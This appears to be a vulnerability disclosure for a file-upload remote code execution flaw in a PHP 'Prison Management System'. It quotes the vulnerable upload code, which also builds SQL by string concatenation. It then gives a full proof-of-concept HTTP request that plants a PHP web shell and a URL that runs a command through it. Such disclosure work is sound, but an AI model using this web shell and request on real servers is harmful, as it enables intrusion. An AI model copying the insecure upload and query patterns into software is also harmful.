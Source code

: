 Prison Management System - File upload RCE (/Employee/edit-photo.php) 

Vendor Homepage:

```
https://www.sourcecodester.com/sql/17287/prison-management-system.html
```

Version: 

```
V1.0
```

Tested on: 

```
PHP, Apache, MySQL
```

Affected Page:

```
/Employee/edit-photo.php
```

Using `$_FILES['userImage']['tmp_name'])` as the filename on the server can lead to file upload attacks.

```php
if(isset($_POST["btnedit"])){
	$image= addslashes(file_get_contents($_FILES['userImage']['tmp_name']));
	$image_name= addslashes($_FILES['userImage']['name']);
	$image_size= getimagesize($_FILES['userImage']['tmp_name']);
	move_uploaded_file($_FILES["userImage"]["tmp_name"],"../uploadImage/Profile/" . $_FILES["userImage"]["name"]);
	$location="uploadImage/Profile/" . $_FILES["userImage"]["name"];
	$sql = " update tblemployee set photo='$location' where email='$email'";
	if (mysqli_query($conn, $sql)) {
		header("Location: profile.php");
	}else{
		$_SESSION['error']='Editing Was Not Successful';
	}
}
```

Proof of vulnerability:

Upload a jpg, capture the packet, modify the file content to malicious code, and modify the file suffix to php

Request:

```
POST /Employee/edit-photo.php HTTP/1.1
Host: 192.168.150.131
Content-Length: 319
Cache-Control: max-age=0
Origin: http://192.168.150.131
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryHpP9AaD4pW6vykY3
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.150.131/Employee/edit-photo.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=90379e534d51402f246c8b8c9ff11b59
Connection: close

------WebKitFormBoundaryHpP9AaD4pW6vykY3
Content-Disposition: form-data; name="userImage"; filename="test.php"
Content-Type: image/jpeg

<?php echo shell_exec($_GET['cmd']);?>
------WebKitFormBoundaryHpP9AaD4pW6vykY3
Content-Disposition: form-data; name="btnedit"


------WebKitFormBoundaryHpP9AaD4pW6vykY3--

```

```
http://192.168.150.131/uploadImage/Profile/test.php?cmd=whoami
```

![image-20240505102939350](./screenshot/image-20240505102939350.png)
